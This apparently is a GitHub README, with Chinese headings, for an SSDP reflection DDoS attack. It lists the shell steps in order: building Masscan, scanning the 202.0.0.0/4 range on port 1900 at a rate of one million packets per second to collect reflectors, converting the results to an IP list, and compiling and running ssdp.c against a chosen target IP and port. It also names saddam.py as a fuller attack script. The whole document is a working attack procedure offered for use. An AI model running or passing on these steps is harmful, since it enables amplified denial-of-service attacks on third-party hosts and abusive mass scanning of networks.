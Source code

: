 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装 Git
	yum install git

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make
	cd bin

### 扫描 Server
	# 最高速扫描 SSDP 端口保存为 JSON
	./masscan 202.0.0.0/4 -p1900 --rate 1000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

### 攻击 SSDP
	# 安装 C 编译环境
	yum -y install gcc
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>
	
> 攻击或使用功能更全的 saddam.py 攻击脚本
